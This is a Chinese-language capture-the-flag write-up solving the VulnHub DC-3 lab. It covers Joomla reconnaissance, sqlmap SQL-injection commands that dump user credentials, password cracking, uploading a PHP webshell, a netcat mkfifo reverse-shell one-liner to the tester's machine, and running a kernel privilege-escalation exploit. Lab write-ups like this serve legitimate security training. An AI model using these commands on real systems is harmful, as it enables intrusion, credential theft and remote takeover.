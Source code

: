 ```yaml
---
title: DC-3复现
tags: 
  - vulnhub
  - 渗透测试
permalink: /archives/4926/
published: 2022-06-05 05:31:23
---
```


# DC-3复现

## 描述

> DC-3 是另一个特意建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 与之前的 DC 版本一样，这个版本是为初学者设计的，虽然这一次，只有一个标志，一个入口点，根本没有任何线索。
>
> 必须具备 Linux 技能和熟悉 Linux 命令行，以及一些基本渗透测试工具的经验。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你可以随时在@DCAU7 上给我发推文，寻求帮助，让你重新开始。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 对于那些有 CTF 和 Boot2Root 挑战经验的人来说，这可能不会花你很长时间（事实上，它可能会花费你不到 20 分钟的时间）。
>
> 如果是这种情况，并且如果您希望它更具挑战性，您可以随时重做挑战并探索其他获得根和获得旗帜的方法。

## 开始

### 信息收集

- 扫描C段看找到目标机器的ip

![image-20220605024811027](./images/image-20220605024811027.png)

- 然后看都开了哪些端口，扫到了80端口

![image-20220605024905636](./images/image-20220605024905636.png)

- 直接访问ip看到这个网站用的是joomla的框架，那我们可以尝试利用joomscan工具获取更加详细的信息

![image-20220605025205577](./images/image-20220605025205577.png)

- 因为kali并没有集成该工具，所以需要下载

- 安装命令`apt install joomscan`

- 安装好之后利用工具查看版本等信息`joomscan -u http://192.168.207.142/`

![image-20220605025824356](./images/image-20220605025824356.png)

- 在报告中不仅仅看到了版本信息，还有后台的管理地址
- 再利用searchploit查找有关的漏洞

![image-20220605030809920](./images/image-20220605030809920.png)

- 再用命令查看txt文本`cat /usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image-20220605031036970](./images/image-20220605031036970.png)

- 从中我们得知漏洞的利用方法

### 渗透开始

#### sqlmap

- 直接跑payload

```sql
sqlmap -u "http://192.168.20.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

- 得到了5个数据库，直接查看joomladb数据库中的表

![image-20220605032447411](./images/image-20220605032447411.png)

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

![image-20220605032852389](./images/image-20220605032852389.png)

- 查列名

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" --columns   -p list[fullordering]
```

![image-20220605040539515](./images/image-20220605040539515.png)

- 查找字段信息

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" -C "name,password,username" --dump   -p list[fullordering]

```

![image-20220605040758091](./images/image-20220605040758091.png)

#### john破解

- 得到密码：snoopy

![image-20220605041557479](./images/image-20220605041557479.png)

#### 传马

- 然后进入前面找到的后台管理地址，发现该网站可以上传一句话木🐎，那就传，然后用蚁剑连接

![image-20220605043121693](./images/image-20220605043121693.png)

- 随便点一个

![image-20220605043207589](./images/image-20220605043207589.png)

- 新建一个php文件用来传马

![image-20220605043329807](./images/image-20220605043329807.png)

- 找到新建的php文件并写入马的内容，并保存

![image-20220605043532371](./images/image-20220605043532371.png)

#### 蚁剑连接

- 打开蚁剑连接

![image-20220605044206406](./images/image-20220605044206406.png)

#### 反弹shell

```txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.207.129 443 >/tmp/f
```

![image-20220605051113753](./images/image-20220605051113753.png)

#### 漏洞利用

- 用命令uname -a查看内核版本，经过百度对应的是Ubuntu 16.04

![image-20220605051135777](./images/image-20220605051135777.png)

- 再次利用searchsploit查找有关Ubuntu 16.04的漏洞

![image-20220605045904252](./images/image-20220605045904252.png)

- 打开文件并查看漏洞利用方法

![image-20220605050130615](./images/image-20220605050130615.png)

- 下载exp到靶机上，并解压

![](./images/image-20220605052037421.png)

> 解压后依次进入39772文件夹
>
> 再解压exploit.tar，然后再进入ebpf_mapfd_doubleput_exploit，并运行./compile.sh，然后再运行./doubleput

![image-20220605052434258](./images/image-20220605052434258.png)

- 然后在进到root目录，就看到了flag

![image-20220605052534589](./images/image-20220605052534589.png)

- 最后再cat一下就得到flag

![image-20220605052605567](./images/image-20220605052605567.png)
